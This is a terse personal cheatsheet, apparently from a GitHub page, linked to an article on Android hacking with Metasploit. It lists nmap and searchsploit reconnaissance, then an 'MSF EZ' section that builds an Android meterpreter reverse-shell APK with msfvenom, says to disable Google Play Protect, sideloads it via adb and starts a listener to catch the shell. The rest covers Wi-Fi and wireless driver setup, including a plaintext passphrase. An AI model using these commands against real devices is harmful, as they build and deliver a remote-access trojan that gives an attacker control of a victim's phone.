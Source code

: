 https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf  
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf  
sudo dhclient wlan0 -r  
MAC: cat /sys/class/net/wlan0/address    
  
Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf

 - General config
sudo nano /etc/network/interfaces

'''
auto lo
iface lo inet loopback

auto wlan0:0
iface wlan0:0 inet static
        address 192.168.168.3
        netmask 255.255.255.0
'''

ERROR  
nl80211: kernel reports: Match already configured  
